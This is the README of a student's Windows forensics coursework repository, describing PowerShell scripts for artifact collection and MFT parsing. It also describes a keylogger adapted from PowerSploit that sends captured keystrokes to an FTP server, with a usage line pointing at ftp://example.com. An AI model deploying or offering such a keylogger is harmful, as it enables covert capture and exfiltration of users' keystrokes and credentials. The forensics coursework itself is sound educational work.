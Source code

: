 # DFIR_trd6577_CSEC475
Windows Forensics Repository

This repository is for work done in my Windows Forensics class at RIT

## Get-Artifacts
This Powershell script gets a large amount of artifacts from a computer. Some of these artifacts include:
* Time
* Windows version
* Hardware specs
* Domain controller information
* List of users (local, domain, system, and service)
* Services/programs that start on boot
* ARP and routing tables
* Network interface information
* Established connections and their associated process IDs
* Process list
* Driver list

### Usage
`Get-Artifacts.ps1 [-Csv] [-CsvPath C:\desired\path\to\csv] [-Email] [-Computers computer1,computer2,computer3]`

By default, Get-Artifacts (run without any arguments) outputs the artifacts collected from the local computer onto the screen
* -Csv tells the script to output the artifacts in a CSV file
* -CsvPath specifies where to place the CSV file. By default, -CsvPath is set to the directory the script is placed in
* -Email means that you want to generate a csv file and email it to someone. This option only works with Gmail accounts
that do not have two factor authentication enabled and have changed their Google settings to allow insecure app access
* -Computers allows you to specify remote computer to connect to and gather this information from

## Get-KeyStrokes
This powershell script uses much of the work done by Chris Campbell and Matthew Graeber in their key logger script
(which is part of their PowerSpolit Library). It logs a user's keystrokes and then sends the keystrokes to an ftp
server every thirty seconds.

### Usage
`Get-KeyStrokes -FtpServer ftp://example.com`

Logs in with anonymous/anonymous

## Convert-MftCsvToString
This powershell script takes the CSV output of Mft2Csv and parses it for the user. It takes in the path to the CSV file generated by the program and prints out the parsed version, displaying the file names, paths, and timestamps. Optionally, you can specify a filename and it will grab the $DATA section of that file and any resident data that is in the MFT file entry. Please note that just parsing the CSV of a 700MB file takes 11GB of memory.

## Usage
`Convert-MftCsvToString -Path C:\path\to\csv\directory [-GetData <filename>] [-Csv <csvFile>]`

Only -GetData or -Csv can be specified, but not both.
* -GetData gets the $data section from <filename>
* -Csv reads in the data from <csvFile> and dumps the output to the screen

## Author
Repository owner: Tom Daniels
